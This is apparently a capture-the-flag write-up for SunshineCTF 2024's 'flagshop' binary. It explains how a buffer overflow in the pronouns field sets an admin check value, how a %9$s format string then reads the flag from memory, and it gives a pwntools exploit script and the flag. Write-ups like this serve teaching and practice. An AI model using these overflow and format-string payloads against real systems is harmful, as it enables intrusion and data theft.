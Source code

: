 ### Intro
This challenge features a terminal where a user creates an account by entering a username and password, and then issues commands to the terminal. There are two commands - accessing the admin panel, and printing user info. The admin panel can be used to gain access to the flag, but it is locked behind admin permissions. Therefore, the solution to this challenge involves using buffer overflow to gain admin permissions, and then using a format string vulnerability to print the flag.

### Decompilation and Analysis
The main function shows that the program creates a user account, and then takes in user input to execute 1 of 2 commands. The command "1" shows the admin panel.
![main](flagshop_main.png)

`load_panel` handles the admin panel. The program checks if a test value != 0 to see if the user has admin permissions; if so, the program reads the flag file. Note that the test value is at a memory offset from the user input buffer (`param_1` is actually `local_28` which holds account info). Also, note that after reading the flag, `load_panel` prints the username as inputted in `create_account`.
![panel](flagshop_panel.png)

As expected, `read_flag` puts the flag into memory.
![readflag](flagshop_flag.png)

### Buffer Overflow
Getting admin permissions is simple - all that is needed to do is overwrite the test value located after the input buffer.
```
input_buf: "pronouns" input
input_buf+0x8: "username" input
input_buf+0x18: admin test value
```

Therefore, inputting a "pronouns" string that is long enough will overwrite the admin test value and allow access to the admin panel.
![part1](flagshop_part1.png)

A string of length=34 does the trick.
![part2](flagshop_part2.png)
![part3](flagshop_part3.png)

However, accessing the admin panel does not print the flag - but it does load it into memory.

### Format String Vulnerability
The flag is loaded into program memory, but the admin panel only prints the username string. Printing is done using `printf`, so it is possible to use a format string in the user input to arbitrarily print from memory. `%s` will print a string from memory.

Therefore, `%9$s` will print the flag string from memory.

Exploit script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./flagshop')

padding1 = b'p' * 32
formatstr = b'%9$s'
padding2 = b'a' * 32
payload = b''.join([padding1, formatstr, padding2])

p = remote('2024.sunshinectf.games', 24001)
p.recvlines(10)
p.sendline(b'test')
p.recvline()
p.sendline(payload)
p.interactive()

```
Note that the actual buffer overflow + FSV payload is written to the "pronouns" field, but this works because overflowing "pronouns" overwrites "username".

Launching the exploit:
![win](flagshop_win.png)

### Flag
sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}
